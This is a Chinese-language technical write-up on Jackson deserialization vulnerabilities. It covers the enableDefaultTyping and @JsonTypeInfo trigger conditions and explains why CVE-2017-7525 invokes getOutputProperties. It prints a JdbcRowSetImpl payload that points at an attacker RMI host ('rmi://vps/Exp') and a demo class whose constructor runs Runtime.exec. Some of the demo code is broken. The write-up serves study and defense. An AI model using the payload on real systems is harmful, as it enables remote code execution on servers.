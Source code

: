 # Jackson的利用触发及小细节

不会很详细，简单分析一些重要的
## 触发前提
满足下面三个条件之一即存在Jackson反序列化漏洞：

调用了ObjectMapper.enableDefaultTyping()函数； 
对要进行反序列化的类的属性使用了值为JsonTypeInfo.Id.CLASS的@JsonTypeInfo注解； 
对要进行反序列化的类的属性使用了值为JsonTypeInfo.Id.MINIMAL_CLASS的@JsonTypeInfo注解； 


## 漏洞原理

其实跟fastjson反序列化漏洞原因类似，漏洞触发方法主要分为两种：

1、目标类的构造函数、set系列函数含有恶意操作，并且参数可控制；

2、目标类的子类、活着目标类的属性的子类的构造函数、set系列函数含有恶意操作，并且参数可控制，如目标类有个属性类型为Object，那么服务端中任意其他类都能为我所用。

### enableDefaultTyping

enableDefaultTyping可以设置如下参数，适用范围从上至下逐渐变大。

| enableDefaultTyping类型 | 说明                                                |
| ----------------------- | --------------------------------------------------- |
| JAVA_LANG_OBJECT        | 属性的类型为Object                                  |
| OBJECT_AND_NON_CONCRETE | 属性的类型为Object、Interface、AbstractClass        |
| NON_CONCRETE_AND_ARRAYS | 属性的类型为Object、Interface、AbstractClass、Array |
| NON_FINAL               | 所有除了声明为final之外的属性                       |

​		

### 第一种

需要开启DefaultTyping，其余大致利用思路和fastjson差不多

```java
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
```

列举一个利用payload大概格式如此

```java
String json = "[\"com.sun.rowset.JdbcRowSetImpl\", {\"dataSourceName\":\"rmi://vps/Exp\", \"autoCommit\":true}]";
```



### 第二种

简单举个例子来理解下，新增一个Test类



```java

import java.io.IOException;

public class Test {
    public String testt = "test";
    public Monitor() throws IOException {
        Runtime.getRuntime().exec("opened -na Calculator");
    }
}

```

简单写个Student类，注意下面有个被Object修饰的

```java
public class Student {
    public String name;
    public String sex;
    public Object myObject;

    public Student(){
        System.out.println("构造函数");
    }
    public String getName(){
        System.out.println("getName");
        return name;
    }
    public void setName(String name){
        System.out.println("setName");
        this.name = name;
    }
    public String getSex(){
        System.out.println("getSex");
        return sex;
    }
    public void setSex(String sex){
        System.out.println("setSex");
        this.sex = sex;
    }

    public Object getMyObject() {
        System.out.println("getMyObject");
        return myObject;
    }
    public void setMyObject(Object myObject) {
        System.out.println("setMyObject");
        this.myObject = myObject;
    }
    @Override
    public String toString() {
        return String.format("Person.name=%s, Person.sex=%s", name, sex);
    }
}
```

利用

```java
ObjectMapper mapper = new ObjectMapper();
      mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT); 
        Student s2 = mapper.readValue("{\"name\":\"5wimming\",\"sex\":\"boy\",\"myObject\":[\"jacksonn.Test\",{\"testt\":\"test\"}]}", Student.class);
```

如果没有开`JAVA_LANG_OBJECT`，Test类在做反序列化的时候，只是做了赋值，并没有进行实例化，因此没有调用Test的构造函数；开启了`JAVA_LANG_OBJECT`后，反序列化Student时候也会发序列化Test，所以调用了Monitor的构造函数，简单测试了下除了设置`NON_FINAL`以外都可以




## 如何在反序列化的时候触发get方法

其实也就是CVE-2017-7525（基于TemplatesImpl利用链）为什么会触发`getOutputproperties`，这点网上基本上没说，这里简单放个图就懂了



在`com.fasterxml.jackson.databind.deser.BeanDeserializer#vanillaDeserialize`中，会根据属性名从this._beanProperties寻找对应的调用方法

![](img/1.png)

这里长话短说，在`com.fasterxml.jackson.databind.deser.BeanDeserializerFactory#addBeanProps`当中，可以很清楚的看出大概逻辑

1. 首先看看有无set方法
2. 如果没有set方法则看看有无这个字段，后面通过反射复制
3. 如果没有set方法以及字段，则会去寻找get方法（前提返回值是Collection、Map及其子类）

![](img/2.png)

这里很清楚就能知道为何能触发`getOutputproperties`，没有`setOutputproperties`,也没有`outputproperties`这个字段，并且`getOutputproperties`返回是`Properties(继承Map类)`



## 参考文章

其他部分可以看看参考文章即可，当然参考文章当中没有提及为什么能过触发get方法，这里帮忙填个坑了

http://www.lmxspace.com/2019/07/30/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B1%87%E6%80%BB
